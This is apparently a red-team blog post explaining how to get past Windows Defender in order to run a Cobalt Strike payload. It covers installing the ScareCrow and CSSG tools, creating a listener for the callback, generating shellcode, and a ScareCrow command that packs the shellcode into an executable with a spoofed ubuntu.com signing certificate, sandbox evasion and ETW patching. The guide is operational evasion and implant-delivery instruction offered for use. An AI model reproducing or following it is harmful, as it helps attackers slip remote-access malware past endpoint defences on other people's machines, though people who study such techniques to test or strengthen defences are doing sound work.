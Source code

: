 
---
title: Bypassing AV using ScareCrow
tags: [windows, c2]
---

This post demonstrates how to bypass defender in order to execute your Cobalt Strike payload.

### Sources
https://github.com/optiv/ScareCrow
https://github.com/RCStep/CSSG


## Installing ScareCrow

First clone the git repository

![img1](https://imgur.com/sjvDX3e.png)

In order to build ScareCrow, you must have `Go` installed along with the following dependencies.

  ```
sudo apt install golang openssl osslsigncode mingw-w64
  ```

Once installed, build ScareCrow.

![build](https://imgur.com/MKCK0Xj.png)



## Installing CSSG

For the next part, we must install the Cobalt Strike Shellcode Generator

```
sudo apt install python2.7 python3.9
python -m pip install pycryptodome
python3 -m pip install pycryptodome
py -3 -m pip install pycryptodome
py -2 -m pip install pycryptodome
```

Download [CSSG](https://github.com/RCStep/CSSG) and move it to somewhere accessible.

Open the script manager by clicking "Cobalt Strike" in the top left of the client then selecting "Script Manager".

Press "Load" and open "CSSG_load.cna" as shown

![load](https://imgur.com/yIHwdhc.png)

We now need to create a listener in order to generate the shellcode to call back to it.
Press the headphones icon and setup your listener as needed.

![listener](https://imgur.com/7GCE9xd.png)

Once loaded, a new option should be added to the top menu, called "Shellcode".

![shellcode](https://imgur.com/LEY6tiS.png)

Open the Shellcode GUI and generate your payload, encryption such as XOR/AES is optional

![gen](https://imgur.com/zveOFuW.png)



## Using ScareCrow to generate the payload

Once you have made your shellcode, we can now use ScareCrow.

`./ScareCrow -I /path/to/shellcode -sandbox -noetw -domain www.ubuntu.com`

This command will convert our Cobalt Strike shellcode into an executable, with a fake certificate signed by "ubuntu.com", howver you can use `-vaid` to provide a valid code signing certificate.

The sandbox flag enables sandbox evasion by using `IsDomainJoined` calls, and the noetw flag disbaled ETW patching which prevents ETW events for being generated

https://docs.microsoft.com/en-us/windows/win32/etw/about-event-tracing

![scarecrow](https://imgur.com/zmiuFGb.png)